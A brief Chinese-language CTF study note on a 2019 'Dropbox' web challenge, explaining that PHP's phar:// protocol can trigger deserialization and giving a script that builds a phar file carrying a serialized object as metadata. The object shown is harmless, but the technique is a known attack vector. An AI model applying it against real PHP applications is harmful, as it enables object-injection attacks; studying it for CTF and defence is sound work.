 参见[[[CISCN2019 华北赛区 Day1 Web1]Dropbox]]

利用`phar`协议能够触发反序列化

`phar`的生成方法如下
```php
<?php
class Test {
	public $name = '123';
}

@unlink('phar.phar');
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$test = new Test();
$phar->setMetadata($test);
$phar->addFromString("abc.txt", "qaq");
$phar->stopBuffering();
```

#Web #PHP #phar #反序列化